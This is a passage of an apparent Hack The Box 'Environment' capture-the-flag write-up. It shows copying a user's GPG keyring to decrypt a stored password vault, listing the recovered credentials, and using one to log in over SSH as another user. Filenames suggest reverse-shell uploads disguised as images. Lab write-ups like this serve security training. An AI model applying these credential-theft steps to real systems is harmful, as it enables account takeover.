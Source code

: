 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ ls -la
total 28
drwxrwx--- 1 root vboxsf  136 May  4 12:17 .
drwxrwx--- 1 root vboxsf   60 May  4 11:35 ..
drwxrwx--- 1 root vboxsf  156 May  4 12:14 .gnupg
-rwxrwx--- 1 root vboxsf 6111 May  4 12:15 gnupg.tar.gz
-rwxrwx--- 1 root vboxsf  430 May  4 12:09 keyvault.gpg
-rwxrwx--- 1 root vboxsf 9405 May  4 11:38 php_reverse_shell.php.jpg
-rwxrwx--- 1 root vboxsf   38 May  4 11:24 shell.php.jpg
```

Before we could use it we `moved` our own `.gnupg` directory and `copied` the folder of `hish` to the same location in our `home directory`.

```shell
┌──(kali㉿kali)-[~]
└─$ mv .gnupg .gnupg.bak
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ cp -R .gnupg ~/
```

Now we could use the `-d` option pointing to the `keyvault.gpg` file in order to read the stored `credentials`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ gpg -d keyvault.gpg 
gpg: WARNING: unsafe permissions on homedir '/home/kali/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

| Password              |
| --------------------- |
| Ihaves0meMon$yhere123 |
| marineSPm@ster!!      |
| summerSunnyB3ACH!!    |

And with the password for `ENVIRONMENT.HTB` we could `escalate our privileges` to `hish`.

| Username | Password         |
| -------- | ---------------- |
| hish     | marineSPm@ster!! |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh hish@10.129.107.56
The authenticity of host '10.129.107.56 (10.129.107.56)' can't be established.
ED25519 key fingerprint is SHA256:GKtBN7PjK58Q8eTT80jQMUZYS5ZLu8ccptkyIueks18.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.107.56' (ED25519) to the list of known hosts.
hish@10.129.107.56's password:
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

```